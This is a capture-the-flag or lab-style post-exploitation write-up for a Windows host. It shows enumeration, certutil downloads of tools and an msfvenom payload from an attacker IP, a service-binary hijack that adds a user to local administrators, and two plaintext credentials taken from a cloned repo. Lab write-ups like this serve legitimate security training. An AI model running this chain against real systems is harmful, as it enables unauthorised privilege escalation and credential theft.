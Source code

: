# Post Exploit - Scientist Machine

- [Post Exploit - Scientist Machine](#post-exploit---scientist-machine)
  - [Local Enumeration 1 - Iyer](#local-enumeration-1---iyer)
  - [Privilege escalation](#privilege-escalation)
  - [Local Enumeration 2 - Administrator](#local-enumeration-2---administrator)

---

## Local Enumeration 1 - Iyer

Check the user privilege:

```
whoami
whoami /priv
net localgroup administrators
```

![picture 6](images/19122d818cc716044ef963f5bb8883ea87ea009f2c1a1a3b5f6435be06ea25a5.png)  

* The current user `iyer` does not have admin privilege.

<br/>

Use `winPEAS.exe` to perform a local enumeration. (Ref: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite)

Serve `winPEAS.exe` using python on the attacker machine:

```
python3 -m http.server 80
```
![picture 7](images/eef477ff7de419d383c249a9f2986a1eb7ad7ce5750f06ddddb4fa44f2d46d46.png)  

<br/>

Download `winPEAS.exe` on the Scientist Machine using `certutil`:
```
certutil -urlcache -f http://192.168.100.11/winPEAS.exe .\winPEAS.exe
```

![picture 8](images/af962bc5882e8aea687ee78a54e093b1a68cb252098cf272850856b7ec762936.png)  

<br/>

Run `winPEAS.exe` to perform a local enuemraiton:
```
winPEAS.exe
```

However it is bugged since `atomic.site` is unresponsive:

![picture 9](images/395895655234d7c068ecddc6fe0243061f6150a67db8af2bf3e58f2805f63c42.png)  

<br/>

Manually enuemrating the `Program File (x86)` folder, user installed programs are `OpenVPN Technologies` and `Python38-32`:

![picture 1](images/fc1e41ab39f6288f8a7e53579493d99acac80998edd851a3c9eb183a02136f24.png)  

<br/>

Get the current running processes:

```
powershell -c "Get-Process"
```

![picture 2](images/809ed7cb3e70263d2c86c52c72c3ee0e65c497805a175cdafb511577fcd5ac95.png)  

* `ovpn.exe` is running.

<br/>

Try to see if this is a service:

```
sc query ovpn
sc qc ovpn
```

![picture 3](images/67bcae22af51961810560e330f592303606e81412837ec57e84aeb24d600a821.png)  


![picture 4](images/eb3f80e8301f9b89023e7de8d0f6507e94f2ae43d2b4c23a249d2568d47367e1.png)  

* The current user can start / stop the service

<br/>

Check the permission of the binary path:

```
icacls "C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\*"
```

![picture 9](images/5ea52dee7464384a6267b0baa3688c4f010b59b28a33b3b4f72af605ded0a3e0.png)  


![picture 5](images/2bb743c073b53175c3f174cbb90fcd7edcaaf91abbf012e4482dbb926c1d9b10.png)  

* The current user has the Full permission.

<br/>

## Privilege escalation

> Technique:<br/>
> T1543.003 - Create or Modify System Process: Windows Service<br/>
> https://attack.mitre.org/techniques/T1543/003/

<br/>

First backup a copy of `ovpn.exe`:

```
copy "C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\ovpn.exe" "C:\Users\Public\ovpn.exe"
```

![picture 6](images/0e1dd98d7e3385df37d3484f3225e12ee49a699982381be0571a4e840e7ec3da.png)  

<br/>

On the attacker machine, generate a payload which adds `OPERATIONS\iyer` as local admin with `msfvenom`, and then serve it using python http server:

```
msfvenom -p windows/exec CMD="net localgroup administrators OPERATIONS\iyer /add" -b "x00" -f exe > ovpn.exe
```

```
python3 -m http.server 80
```

![picture 7](images/118024c3365fe2d9a86d3746b6830d6606507cd4c01ac9c62700bd55313c95c2.png)  

<br/>

On the Scientist machine, replace `ovpn.exe` by the served one:

```
cd C:\Program Files (x86)\OpenVPN Technologies\OpenVPN Client\
move ovpn.exe ovpn2.exe
certutil -urlcache -f http://192.168.100.11/ovpn.exe .\ovpn.exe
```

![picture 8](images/3fa3a6b6310fc4dd3147cbfac84b5da85c6348a99085843c2eb884657edb4e2f.png)  

<br/>

Then restart the service `ovpn` to get the binary executed.

```
sc stop ovpn
sc start ovpn
```

![picture 10](images/a0f9bcdb6e8ba5ae27a8f309e911a17d49b6b808e99ee2c3f8d0bd2866b2a5b3.png)  

![picture 11](images/49ee88a744b067ee43fca8f30e3072d2d9c29daad990d5dc40689dae8b4dbe23.png)  

![picture 12](images/77526e3b20dbc7d5a47a9cb66113ffa3743c417287673e5f75627f670eea7a96.png)  

* As shown, our privilege is escalated to local admin.

<br/>

Restart the reverse shell and we can browse the Administrator's folder:

![picture 13](images/348ce963ab113d5c0e4ab3dcd3a8f1348ab6edc6249f15fa5eb52f7ca341104e.png)  

<br/>

## Local Enumeration 2 - Administrator

Check the Administrator's desktop:

```
dir C:\Users\Administrator\Desktop\
```

![picture 14](images/c8357c88200e4b9f0983a7710d0abfbb128b173a23f71927230fafb74fea9e41.png)  


<br/>

Check the content of `Git-Configuration.txt`:

```
cd C:\Users\Administrator\Desktop
type Git-Configuration.txt
```

![picture 15](images/a3420cccfde08a278310d2952eb082c029a029d2da19b5b83c15e6b741467265.png)  

![picture 20](images/d77464f833cbc53b9ce9b6d5cf702c6b18302d80e07d1123c6cfe915b8e287b3.png)  

* `automation-server.operations.atomic.site` (`10.1.3.1`)

<br/>

Try to clone the repo to the local:

```
git clone http://automation-server.operations.atomic.site/iyer/Database-Connection.git
```

![picture 16](images/04e6889388dd66ff4e6e53416bc6227b5f6440b9737a0caa96b103e068f35587.png)  

<br/>

Check the files in to downloaded repo:

```
cd Database-Connection
dir
```

![picture 17](images/9f66eee488db83246d7c99f6af23ee054e492efb0f63d0d394cc40d676e65608.png)  

<br/>

Check the content of `migrate.txt`:

```
type to_migrate.txt
```

![picture 18](images/d273e6942095412db33f35217e9f08a734b6a61cc920ebfce4840c04f0971297.png)  

![picture 19](images/106168ff597c0bdb77e33593b129731e3b214a508d37aa4b868ae33518236d74.png)  

- Found 2 credentials:
  -  `iisadmin` \ `Head!!S%$#@!`
  -  SQL: `tutorialsdojo` \ `P@sSword123`

<br/>


